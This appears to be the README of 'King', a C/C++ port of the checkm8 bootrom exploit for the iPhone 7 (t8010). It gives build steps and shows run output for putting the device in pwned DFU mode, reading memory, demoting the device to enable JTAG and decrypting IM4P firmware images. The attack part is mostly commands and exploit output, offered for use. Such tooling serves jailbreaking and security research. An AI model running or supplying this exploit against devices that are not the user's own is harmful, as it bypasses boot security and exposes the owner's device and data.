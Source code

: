 # King

Port of axi0mX's check-m8 exploit (<https://github.com/axi0mX/ipwndfu>) to C/C++

It works fine on Ubuntu 19.10 and compiles on Windows.

So far I only ported the t8010(iBoot-2696.0.0.1.33) exploit which is working fine on my iPhone 7


# Compilation

```bash
cd King
mkdir build
cd build
cmake ..
make
cp -R ../bin .
```

# Run check-m8 exploit
```
sudo ./king checkm8
[*] Shellcode generated ...
[*] Device Serial Number: CPID:8010 ... SRTG:[iBoot-2696.0.0.1.33]
[*] stage 1, heap grooming ...
[*] stage 2, usb setup, send 0x800 of 'A', sends no data
[*] Device Serial Number: CPID:8010 ... SRTG:[iBoot-2696.0.0.1.33]
[*] stage 3, exploit
[*] Device Serial Number: CPID:8010 ... SRTG:[iBoot-2696.0.0.1.33]
[*] Device Serial Number: CPID:8010 ... SRTG:[iBoot-2696.0.0.1.33] PWND:[checkm8]
[!] Device is now in pwned DFU Mode! :D
```

# Read memory
```
sudo ./king read64 0x100000280
[*] Device Serial Number: CPID:8010 ... SRTG:[iBoot-2696.0.0.1.33] PWND:[checkm8]
[*] [100000280] = 36322D746F6F4269
```

```
sudo ./king read32 0x100000280
[*] Device Serial Number: CPID:8010 CPRV:11 ... SRTG:[iBoot-2696.0.0.1.33] PWND:[checkm8]
[*] [100000280] = 6F6F4269
```

# Demote device (Enable JTAG)
```
[*] Device Serial Number: CPID:8010 ... SRTG:[iBoot-2696.0.0.1.33] PWND:[checkm8]
[*] DemotionReg: 287
[*] Setting Value...
[*] New DemotionReg: 286
[!] Succeeded to enable the JTAG!
```

# Decrypt and unpack IM4P firmware image
```
sudo ./king decryptIMG iBoot.d10.RELEASE.im4p   
decryptIMG4
IM4P: ---------
type: ibot
desc: iBoot-5540.0.129
size: 0x00072340

KBAG
num: 1
3c8b957e2bca7ce6e56b41f86490f535
9fde3e44de15dac204f895378d0e7eb03ecc2b67bb1958bb2c70508ea63875f5
num: 2
af60c224bd43c632a17495816dca1ae6
bada1c3314217e7dd6b903d4c3caf3a7aa0f214ec40f13a1085d04bb2d05dc25

[*] Device Serial Number: CPID:8010 ... SRTG:[iBoot-2696.0.0.1.33] PWND:[checkm8][*] Decrypted Keybag: 
DF97....15CE
[*] Decrypted Key: 
369......5CE
[*] Decrypted IV: 
DF........E7
[!] File succesfully decrypted and written to: iBoot.d10.RELEASE.im4p_decrypted
```

# Limitations

I only ported the t8010 exploit and so far it fails on Windows (WIP!)
